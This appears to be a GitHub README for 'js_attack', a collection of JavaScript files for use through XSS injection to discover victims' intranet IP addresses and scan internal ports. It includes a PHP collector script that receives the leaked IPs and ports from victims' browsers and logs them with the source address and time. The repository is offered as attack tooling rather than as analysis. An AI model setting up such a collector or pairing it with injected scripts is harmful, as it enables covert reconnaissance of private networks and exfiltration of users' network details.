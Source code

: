 js_attack - some .js can use with xss injector
===================

Usage example
------------------

Get-Intranet-ip.js & Scan-Intranet-port.js:
you can make a server to hand ip:
```
<?php
    date_default_timezone_set(PRC);
    $from = $_SERVER['REMOTE_ADDR'];
    $time = date("Y-m-d G:i:s");
    $ip = $_GET['ip'];
    $port = $_GET['port'];
    file_put_contents('./webrtc_ip.txt', $ip.' | '.$port.' | '.$time.' | from '.$from."\r\n", FILE_APPEND);
?>
```

Author
------

Artem Kondratenko https://twitter.com/artkond


Credit
------
Repo is based on the following projects:

- https://github.com/diafygi/webrtc-ips


